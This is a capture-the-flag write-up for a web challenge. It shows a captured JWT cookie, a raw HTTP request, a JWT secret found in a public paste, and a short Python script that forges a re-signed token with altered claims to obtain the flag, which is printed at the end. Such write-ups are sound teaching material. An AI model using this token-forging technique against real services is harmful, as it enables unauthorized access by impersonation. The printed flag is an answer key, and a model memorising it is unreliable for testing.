 # Chapter 5: The Final Stand (500 points / 2 solves)

The final piece of the puzzle leads L to a Website, a digital stronghold created by Kira. The site is rigged, designed to eliminate anyone who dares to stop Kira. However, L has uncovered a flaw, a way to turn Kira's creation against him and bring an end to his reign.

Check out the Website here:

http://chall.ycfteam.in:8370/

## Overview

Okay finally, the last challenge. And of course it had to be web :sob:

## Solve

Opening up the website and clicking the kill button, we can see a jwt cookie - `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJraWxsZXIiOiJLaXJhIiwidmljdGltIjoiTCIsInN1c3BlY3QiOiJSeXVrIiwiZXhwIjoxNzI1NzM4MTE3fQ.tQXhTSh1_mb1Pnv0DCyZ9HEAq6HF7mqPpzfE4N2oG5U`

![image](https://github.com/user-attachments/assets/04d83172-fbd1-4d16-9f78-744450aa558c)

So basically according to the question, we have to kill Kira.

```
POST /kill HTTP/1.1
Host: chall.ycfteam.in:8370
Content-Length: 6
Cache-Control: max-age=0
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
Origin: http://chall.ycfteam.in:8370
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.57 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://chall.ycfteam.in:8370/
Accept-Encoding: gzip, deflate, br
Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJraWxsZXIiOiJLaXJhIiwidmljdGltIjoiTCIsInN1c3BlY3QiOiJSeXVrIiwiZXhwIjoxNzI1NzM4MTE3fQ.tQXhTSh1_mb1Pnv0DCyZ9HEAq6HF7mqPpzfE4N2oG5U
Connection: keep-alive

kill=L
```

Now simply changing `kill` to `Kira` wont work since we have a JWT to change as well. For that, we need the secret of the JWT key and we already have that! We got it in a previous part (https://pastebin.com/u/sneckey0day --> https://pastebin.com/CZx54e7u)

So now, we have the JWT secret `shinigamictf2k24`. Now, we can just keep changing values until we get the flag and those values are:

```
{
  "killer": "Ryuk",
  "victim": "Kira",
  "suspect": "Ryuk",
  "exp": ...
}

kill=Kira
```

We can sign a new JWT using this secret:

```py
import jwt
import time

secret = "shinigamictf2k24"

payload = {
    "killer": "Ryuk",
    "victim": "Kira",
    "suspect": "Ryuk",
    "exp": int(time.time()) + 3600
}

new_jwt = jwt.encode(payload, secret, algorithm="HS256")

print("New JWT:", new_jwt)
```

And send the request with the new stuff and get the flag!

![image](https://github.com/user-attachments/assets/5c8e79ae-dd74-4859-a67d-bf5d4f70de7f)

`BsidesDehradun{K1r4_1s_n0_M0r3}`
